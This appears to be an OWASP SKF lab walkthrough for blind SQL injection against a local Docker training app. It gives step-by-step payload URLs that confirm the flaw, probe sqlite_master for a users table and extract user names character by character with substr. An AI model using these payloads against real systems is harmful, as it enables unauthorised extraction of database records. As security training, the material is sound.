 # SQLI \(Blind\)

## Running the app on Docker

```text
$ sudo docker pull blabla1337/owasp-skf-lab:sqli-blind
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:sqli-blind
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

### Step1

The first step is to identify parameters which could be potentially used in an SQL query to communicate with the underlying database. In this example we find that the "/home" method grabs data by pageID and displays the content.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/SQLI-Blind/1.png)

```text
http://localhost:5000/home/1
```

### Step2

Now let's see if we can create an error by injecting a single quote

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/SQLI-Blind/2.png)

```text
http://localhost:5000/home/1'
```

However, it's still not possile we can't see this as the application shows a 404 Error page.

### Step3

Now we need to inject logic operators to check if the application is vulnerable to SQL Injection.

First, we inject a logical operator which is true \(or 1=1\). This should result in the application run as intended without errors.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/SQLI-Blind/3.png)

```text
http://localhost:5000/home/1 OR 1=1
```

After that we inject a logical operator which is false \(and 1=2\). This should result in the application returning an error.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/SQLI-Blind/4.png)

```text
http://localhost:5000/home/1 AND 1=2--
```

By doing so we are sure the application has a SQL Injection vulnerability.

This is due to the fact that the user supplied input is being directly concatenated into the SQL query.

```python
db.execute('SELECT pageId, title, content FROM pages WHERE pageId='+pageId)
```

## Exploitation

Now that we know that the application is vulnerable for SQL injections we are going to use this vulnerability to read sensitive information from the database. This process could be automated with tools such as SQLMAP. However, for this example let's try to exploit the SQL injection manually.

### Step1

We need to determine which conditions are TRUE and FALSE for the application. By trial and error it's possible to determine the pageIDs 1,2 and 3 are valid, whereas 4 is not.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/SQLI-Blind/5.png)

```text
http://localhost:5000/home/1
```

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/SQLI-Blind/6.png)

```text
http://localhost:5000/home/4
```

#### Step 2

Now, we need to inject a IF condition, returning 1 for the TRUE cases and 4 for the FALSE ones.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/SQLI-Blind/7.png)

```text
http://localhost:5000/home/(select case when 1=1 then 1 else 4 end)
```

#### Step 3

Next step is to add more logic to our injection and starting to retrieve information from data tables. Remember we will never view the data we are retrieving from the DB in the page, but we will do it by logicaly testing if the data exists.

Let's check if the table users exists.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/SQLI-Blind/8.png)

```text
http://localhost:5000/home/(select case when tbl_name='users' then 1 else 4 end from sqlite_master where type='table')
```

Good news! As we didn't see an error, it means the table _users_ exists.

By testing different table names, we will receive an 404 error, indicating the table does not exist.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/SQLI-Blind/9.png)

### Step 4

Let's try to extract a valid user. Instead of having a dictionary of possible users to guess, we can check if the first letter of the first user contains the letter _a_.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/SQLI-Blind/10.png)

```text
http://localhost:5000/home/(select case when substr(UserName,1,1)='a' then 1 else 4 end from users limit 0,1)
```

The error indicates it's not the case. Let's try with the letter _A_. Remember, case matters.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/SQLI-Blind/11.png)

```text
http://localhost:5000/home/(select case when substr(UserName,1,1)='A' then 1 else 4 end from users limit 0,1)
```

Yes, it matches!

As initial guess, _Admin_ could be a possible user. So, let's test this theory:

```text
http://localhost:5000/home/(select case when substr(UserName,2,1)='d' then 1 else 4 end from users limit 0,1)
```

```text
http://localhost:5000/home/(select case when substr(UserName,3,1)='m' then 1 else 4 end from users limit 0,1)
```

```text
http://localhost:5000/home/(select case when substr(UserName,4,1)='i' then 1 else 4 end from users limit 0,1)
```

```text
http://localhost:5000/home/(select case when substr(UserName,5,1)='n' then 1 else 4 end from users limit 0,1)
```

We made it! None of the requests above returned _404 Error_, so this indicates _Admin_ is a valid value.

Now that you know the logic, you can extract all UserNames stored within this table.

Why not dumping the whole database?

Don't forget to play with Limit numbers to fetch more records.

## Additional sources

Please refer to the OWASP testing guide for a full complete description about SQL injection with all the edge cases over different platforms!

[https://www.owasp.org/index.php/Testing_for_SQL_Injection\_\(OTG-INPVAL-005\)](https://www.owasp.org/index.php/Testing_for_SQL_Injection_%28OTG-INPVAL-005%29)

SQLite Reference

[https://www.techonthenet.com/sqlite/sys_tables/index.php](https://www.techonthenet.com/sqlite/sys_tables/index.php)
